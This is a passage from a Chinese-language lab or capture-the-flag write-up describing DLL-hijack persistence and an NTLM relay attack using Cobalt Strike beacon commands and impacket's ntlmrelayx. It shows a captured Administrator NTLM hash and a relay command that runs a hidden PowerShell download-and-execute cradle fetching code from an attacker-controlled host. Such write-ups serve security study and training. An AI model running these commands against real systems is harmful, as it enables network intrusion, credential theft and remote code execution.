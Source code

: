 ```
这里主要是通过劫持系统软件缺失的dll文件来执行恶意代码，这样每当重启系统或者重启软件时我们都能获得一个rev shell，从而获得持久性
但是上面我们已经有了administrator的哈希，理论上也可以实现主机持久性，当然如果管理员改了密码那就不行了



## NTLM Relay

1. 获得一个system权限的beacon
```
beacon> run whoami
[*] Tasked beacon to run: whoami
[+] host called home, sent: 24 bytes
[+] received output:
nt authority\system

```

2. 把靶机的445端口转发到kali的445（因为我的CS客户端是在kali开启，所以kali的地址填127.0.0.1）
```
beacon> rportfwd 445 127.0.0.1 445
[+] started reverse port forward on 445 to 127.0.0.1:445
[*] Tasked beacon to forward port 445 to 127.0.0.1:445
[+] host called home, sent: 10 bytes

```


3. 开启ntlmrelayx
```
proxychains python3 /usr/share/doc/python3-impacket/examples/ntlmrelayx.py -t smb://10.200.114.30 -smb2support --no-http-server 
```

4. 在filesrv01触发NTLM认证

```
beacon> run dir \\10.200.114.35\blah
[*] Tasked beacon to run: dir \\10.200.114.35\blah
[+] host called home, sent: 153 bytes
[-] could not spawn dir \\10.200.114.35\blah (token): 2
```

5. 收到NTML认证的哈希流量

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659854255296.png)

看到有Administrator的哈希

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:70017854acf6ea8d2af520eddcc866fb:::
```

但是这里的哈希试过不能pth，于是我决定换一个方法，当中继发生时执行一条命令，使用```-c```参数,此时我们收到一个system的beacon

```
proxychains python3 /usr/share/doc/python3-impacket/examples/ntlmrelayx.py -t smb://10.200.114.30 -smb2support --no-http-server -c 'powershell -nop -w hidden -c "iex (new-object net.webclient).downloadstring(\"http://10.50.111.108/a\")"'
```

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659858729357.png)


拿到root.txt


```